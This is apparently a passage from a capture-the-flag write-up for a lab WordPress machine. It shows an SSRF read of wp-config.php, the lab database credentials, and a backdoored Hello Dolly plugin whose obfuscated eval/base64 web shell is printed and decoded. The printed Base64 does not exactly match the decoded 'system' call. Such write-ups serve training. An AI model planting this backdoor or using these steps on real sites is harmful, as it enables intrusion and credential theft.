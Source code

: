 **Analysis of Leaked Data**
The server responded to the malicious request with the full source code of the `wp-config.php` file. This file contained the database credentials for the WordPress application:

```
DB_NAME: 'wordpress'
DB_USER: 'wpuser'
DB_PASSWORD: 'kbLSF2Vop#lw3rjDZ629*Z%G'
```

---

### B. Uncovering and Deconstructing the Hello Dolly Backdoor

With administrative credentials in hand, the next step was to find a vector for executing code on the server.

**Objective**
The objective was to gain administrative access to the WordPress dashboard and identify a method for remote code execution.

**Administrative Access**
Using the credentials (`wpuser / kbLSF2Vop#lw3rjDZ629*Z%G`) obtained from the `wp-config.php` file, a successful login was performed at the WordPress admin panel:

```
http://www.smol.thm/wp-admin
```

**Discovering the Breadcrumb**
Inside the dashboard, a private post titled "Webmaster Tasks!!" contained an explicit instruction:

> "Check Backdoors: Verify the SOURCE CODE of 'Hello Dolly' plugin"

While this is a CTF-style hint, it reinforces the methodology of thoroughly enumerating all accessible content after gaining authenticated access. The previously identified SSRF vulnerability was then re-used to read the source code of the `hello.php` file.

**Deobfuscating the Payload**
Analysis of the `hello.php` source code revealed a suspicious, obfuscated line of code:

```php
eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXNOZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
```

The deobfuscation process involved two steps:

1. **Base64 Decoding**
   The Base64 string was decoded, revealing code with octal and hexadecimal escape sequences:

```bash
$ echo 'CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXNOZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA=' | base64 -d
if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); }
```

2. **Translate Escape Sequences to ASCII**
   The escape sequences were then translated to their ASCII equivalents:
   `\143` → `c`, `\155` → `m`, `\x64` → `d`.
